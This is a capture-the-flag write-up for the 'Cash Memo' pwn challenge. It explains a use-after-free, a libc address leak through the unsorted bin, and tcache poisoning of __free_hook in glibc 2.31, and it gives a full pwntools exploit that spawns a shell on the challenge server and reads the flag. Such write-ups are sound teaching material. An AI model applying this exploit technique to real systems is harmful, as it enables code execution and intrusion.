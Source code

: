 https://ctftime.org/event/2657

# Cash Memo (pwn)

I have a really hard time managing my cash, am afraid someone might steal my memos...

nc chall.ehax.tech 1925

## Analysis

`mallocc` @ `0x1269`:

- `arr[idx] = malloc(sz);`
- `arr_size[idx] = sz;`

`freee` @ `0x13bb`:

- `free(arr[idx]);`
     - Note: the pointer is left unchanged so we can perform a use after free with `edit` and `view`

`edit` @ `0x1470`:

- `fgets(*(char*)arr[idx], arr_size[idx], stdin);`

`view` @ `0x154a`:

- `puts(*(char*)arr[idx]);`

Note: we are given version 2.31 of libc.

Given the 4 functions above and the version of libc we can aim to control `__free_hook`.

We can use tcache poisoning to do this https://github.com/shellphish/how2heap/blob/master/glibc_2.31/tcache_poisoning.c. We can do this by using `freee` to call `free` on the allocation while retaining the address and then using `edit` to modify the `fd` pointer to point to libc's `__free_hook`.

However first we'll need to leak the libc base to bypass libc aslr. We can do this by using `view` to read the `fd` pointer ( which is a libc pointer ) after a chunk is placed in the unsorted bin. We just need to make sure that we free a large enough chunk that won't get consolidated in the process.

### Calculating The libc ASLR Base

The offset of `0x1ecbe0` used to calculate the libc aslr base is found by using the `pwndbg` command `xinfo` on the `fd` pointer while it is in the unsorted bin.

First here's the order of operations:

```python
menu_new(0, 0x600, b"A") # leak libc from unsorted bin
menu_new(1, 0x600, b"B")
menu_new(2, 0x600, b"C")
menu_delete(1)
leak = u64(menu_view(1)[:-1] + b"\x00\x00")
libc.address = leak - 0x1ecbe0
log.success(f"libc: {hex(libc.address)}")
```

Use `heap` right before the call to `puts` in `view`:

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x63a2321a5000
Size: 0x290 (with flag bits: 0x291)

Allocated chunk | PREV_INUSE
Addr: 0x63a2321a5290
Size: 0x610 (with flag bits: 0x611)

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x63a2321a58a0
Size: 0x610 (with flag bits: 0x611)
fd: 0x764de338dbe0
bk: 0x764de338dbe0

Allocated chunk
Addr: 0x63a2321a5eb0
Size: 0x610 (with flag bits: 0x610)

Top chunk | PREV_INUSE
Addr: 0x63a2321a64c0
Size: 0x1fb40 (with flag bits: 0x1fb41)
```

We're interested in the allocation with an address of `0x63a2321a58a0`. You can see that the `Free chunk (unsortedbin)` has an `fd` of `0x764de338dbe0` we can use `xinfo` to see the offset as follows:

```
pwndbg> xinfo 0x764de338dbe0
Extended information for virtual address 0x764de338dbe0:

  Containing mapping:
    0x764de338d000     0x764de338f000 rw-p     2000 1eb000 /home/user/ctf/cash_memo/libc-2.31.so

  Offset information:
         Mapped Area 0x764de338dbe0 = 0x764de338d000 + 0xbe0
         File (Base) 0x764de338dbe0 = 0x764de31a1000 + 0x1ecbe0
      File (Segment) 0x764de338dbe0 = 0x764de3389788 + 0x4458
         File (Disk) 0x764de338dbe0 = /home/user/ctf/cash_memo/libc-2.31.so + 0x1ebbe0

 Containing ELF sections:
               .data 0x764de338dbe0 = 0x764de338d1a0 + 0xa40
```

Specifically we are interested in this line `File (Base) 0x764de338dbe0 = 0x764de31a1000 + 0x1ecbe0`.

Now to compute the libc base we simply do the following:

```python
u64(menu_view(1)[:-1] + b"\x00\x00") - 0x1ecbe0
```

Note: we almost always get 6 bytes when calling `puts` on an address to points within libc so you'll need to add 2 zero bytes with functions, like `u64`, that expect 8 bytes.

## Solution

1) Use https://github.com/io12/pwninit to patch the binary to use the provided libc and ld
2) Leak libc address to bypass libc aslr by exploiting use-after-free to read libc pointers from a chunk in the unsorted bin
3) Use tcache poisoning to set `__free_hook` equal to `system`
4) Free memory that points to `b"/bin/sh\x00"` to call `system("/bin/sh")` via `__free_hook`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./chall_patched", checksec=False)
context.binary = elf

libc = ELF("./libc-2.31.so", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("chall.ehax.tech", 1925)

def menu_new(idx, sz, payload):
    p.sendlineafter(b">", b"1")
    p.sendlineafter(b"which index?\n> ", str(idx).encode())
    p.sendlineafter(b"how big?\n> ", str(sz).encode())
    p.sendlineafter(b"first payload?\n> ", payload)

def menu_delete(idx):
    p.sendlineafter(b">", b"2")
    p.sendlineafter(b"which index?\n> ", str(idx).encode())

def menu_edit(idx, payload):
    p.sendlineafter(b">", b"3")
    p.sendlineafter(b"which index?\n> ", str(idx).encode())
    p.sendlineafter(b"New contents?\n> ", payload)

def menu_view(idx):
    p.sendlineafter(b">", b"4")
    p.sendlineafter(b"which index?\n> ", str(idx).encode())
    return p.readline()

menu_new(0, 0x600, b"A") # leak libc from unsorted bin
menu_new(1, 0x600, b"B")
menu_new(2, 0x600, b"C")
menu_delete(1)
leak = u64(menu_view(1)[:-1] + b"\x00\x00")
libc.address = leak - 0x1ecbe0
log.success(f"libc: {hex(libc.address)}")

menu_new(0, 128, b"A") # tcache poisoning
menu_new(1, 128, b"B")
menu_delete(0)
menu_delete(1)
menu_edit(1, p64(libc.sym["__free_hook"]))
menu_new(0, 128, b"/bin/sh")
menu_new(1, 128, b"")
menu_edit(1, p64(libc.sym["system"]))
menu_delete(0)

p.sendline(b"/bin/cat flag.txt")
print(p.readline().decode()[:-1]) # EH4X{fr33_h00k_c4n_b3_p01ns0n3d_1t_s33m5}
```

## Flag
`EH4X{fr33_h00k_c4n_b3_p01ns0n3d_1t_s33m5}`

smiley 2025/02/16
